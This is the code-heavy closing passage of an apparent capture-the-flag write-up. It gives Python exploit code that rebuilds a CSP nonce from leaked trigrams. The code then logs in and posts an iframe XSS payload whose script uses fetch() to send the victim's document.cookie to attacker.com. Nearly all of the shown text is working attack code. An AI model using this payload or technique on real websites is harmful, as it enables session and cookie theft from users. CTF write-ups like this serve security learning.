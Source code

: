 # create and share our malicious post with the correct nonce in the script tag
def create_payload(nonce: str):
    global ATTACK_URL, s, USERNAME, PASSWORD
    data = {
        'username': USERNAME,
        'password': PASSWORD,
    }
    print(s.post(ATTACK_URL + "/login", data=data).text)

    # create payload
    data = {
        'title': random_char(10),
        'content': f'''<iframe srcdoc="<script nonce='{nonce}'>fetch('https://attacker.com/flag?FLAG='+parent.document.cookie);</script>"></iframe>'''
    }
    print(s.post(ATTACK_URL + "/write", data=data).text)

    # share diary, change this to the next created diary count yet to be populated
    print(s.get(ATTACK_URL + "/share_diary/46").text)

# listen for changes to trigrams and if trigrams don't change, it means the exfiltration is done and we can recover the nonce
def try_solve_trigram():
    global GSTART, GEND, GTRIGRAMS, PREV_TRIGRAMS_LEN
    while True:
        time.sleep(1)
        try:
            curr_trigrams_len = len(GTRIGRAMS)
            if curr_trigrams_len == PREV_TRIGRAMS_LEN and curr_trigrams_len != 0:
                nonce = trigram_solver(GTRIGRAMS, start=GSTART, end=GEND)
                nonce = next(iter(nonce))
                print(nonce)
                create_payload(nonce)
                GTRIGRAMS = []
                GSTART = ""
                GEND = ""
            PREV_TRIGRAMS_LEN = curr_trigrams_len
        except Exception as e:
            print(e)
            pass


x = threading.Thread(target=try_solve_trigram)
x.start()
{% endhighlight %}

Hack on!
